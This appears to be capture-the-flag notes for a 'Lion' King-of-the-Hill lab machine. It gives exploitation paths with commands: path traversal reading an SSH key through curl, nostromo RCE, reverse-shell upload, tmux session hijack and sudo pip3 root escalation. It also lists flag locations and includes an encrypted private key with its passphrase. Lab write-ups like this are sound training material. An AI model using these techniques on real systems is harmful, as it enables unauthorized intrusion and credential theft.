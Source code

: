 # Lion KOTH machine

note: ssh is on `1337`

path to foothold:

- can get in as `gloria` due to LFI on `:5555/?page=../../../../../../home/gloria/.ssh/id_rsa`. needs to be cracked with john
  - use `curl --path-as-is <ip>:5555/?page=../../../../../../home/gloria/.ssh/id_rsa` to grab it
  - the password has been `dance` over several tests
- can also get in as `gloria` via `:8080`, which runs nostromo 1.9.6 webserver vulnerable to RCE via [this](https://www.exploit-db.com/exploits/47837)
- can get in as `alex` due to unrestricted file load on `:80/uploads`. file should be a perl reverse shell script, e.g. from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl) to be immediately executed
- can get in as `marty` by connecting to a random port between 10000 and max. warning: this seems to get wrecked by rustscan i think. if connectable, basically serves as a cmd shell.

path to root:

- all users can seemingly hijack a tmux session used by root: `export TMUX=/.dev/session,1234,0` then just `tmux` to get a root session. best used with gloria after sshing in.
- `alex` can run pip3 as root via sudoers. doing the following will start a root shell, with no screen feedback. careful typing can create a suid sh binary or similar

  ```
  TF=$(mktemp -d)
  echo "import pty; pty.spawn('/bin/bash')" > $TF/setup.py
  sudo pip install $TF
  ```
  
## flags:

- `/home/marty/user.txt` - reversed
- `/home/gloria/user.txt` - as is
- `/home/alex/user.txt` - rot13
- `/root/.flag` - as is
- random high port: thm
- user table in the blog database

## glorias id_rsa (password `dance`)

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,DEA2FCB97D9A7EE91BB5502188F24BCA

5m/tHlXFlre3iBu/0wnnfEyS/p7qd0yjLDuG3jblth2CpwqIvPjGGq6hoFr6xdZO
8DOR/D16XDblHvvpJBlVfqHuXzIFbqDYCgvAeB8cZbxLaqhSi0H5fHT+N0MrMM5H
p3ejg2Nwk67BxygtjnvYgXKu+ALk0/NLDAj0NzztX+yOsSPvsyR2UjUSo352pMBt
lokw3kshMcqKs0G1UhBphV5bUgUTA0nPi5WBlIdmWC+Re0EHH+RvLulg0AxR6v5Q
UxqJJ/i0dLp6N7nTFANde+I5JwPEDJ/SGJJRWB/srcpVz3PSZuEJht83nmcJRZCz
S/x7iOhIUA1vBlexg/Td911H/95sofArhZDMPX54IMO7/q5AfIjDpqD8U9Pts7R0
aBq+1m2RfVB85FM11kJv5T0uNW6t5dP8BVb7Jqz60okgJg4cJMu5YMX7vj3xCxxy
5Hlc7PA/kIy/y2tRJmArvheuFB7qjRIPcuw1gw1TKDCUHS29aiN+ePCS4f236/if
9VwHnfp8wCUnO6ApRX9sJ6iAPMA8JYFpylIL/0XqEjZdu+ESWetTfGzsxXRdeNkY
L1/H4W9mNNIbNTnL3irr4SuKowFpKwxp6xhloZ4boyiWsdfLpmtUBE5euxjlppWp
2y7ZbtuKiqdTHkhPOZOnx7oi2FmWw81P4wS6nF2ObPpSq5LGf9TiLEw5i0icedkp
rnd/qkhkBuIQb6CKlW9m3AXgMRVQXa78J1lx60FdO1B9mtuhOy529GcwVkWh856x
MesHWvY33GmW0QcVKnUqhhFDbkT0l/X7UERTMAHVKZhfPeChuo/7LoqUqdMI57Se
U66OS9bu0INLLwcSlOAL9aweynt8MFo1DS+xQsJWTLSBnVz7iT6IMYUfhtO3gi5/
Oginxw/FPmGJ6THuFWi15k9dDdO3nBJhAQDHRpMYi4BLm/xPF7EXhgiGy6sBVGrF
PYlXHZvlQEJvHd/DCw0uwolEc3z4CilGKz1BX0WbCp9cEgkmM+Ez7QTvvBa5i6kg
qh1pAaZ+cNFDJi9bn76qEaCLCd1FMPnpcZgMUgwBfyKM+1YXa0gbxlS8fqgU066j
Mol50cLTM8D4tny3OvPcjW4FveCkhqJjGK7DY1Us7R3VDWAjOYIaMqSIM2ip6iLZ
ukq7K1r0t68eVDuDGcMLjfVihGywyqglqnqaXYcJ8+19ae76E3HVFIWbSU409fMp
fs8r6QLnuxvX1HHa74Hctuo6fzB7qokKV51ChmpXjN8h5uwEl0msbJSrKlIeYy0S
uURTlfqDq50HBr2yJYeuDzEpRjZuucXqkCIRZLSjKedf9mBtMq/3CvN9K/P45A2H
BYxl0pcZPaeUiwdR/bycLK1tBZm5kVSGIU2fK7IsKrgqZxzKS6kdr2FFsKs3HWMF
ScVJZPT4dqDo3PSIQUw7q0GixCLLdDU9p45CSKPVySYyiGU22RTQS2ccGEcCTurj
lcY0pO4wZmm5GkseF5moa/1c3aOUZOESAlWGpEg5PNPt3U/SWJTpziGv3NY5DLq9
R9OsbX0gkO711f8RvRTELQIYFIO/0LcKTjY16g8MtBlMKYCyJ0cWLVWAUoggJxiR
-----END RSA PRIVATE KEY-----
```
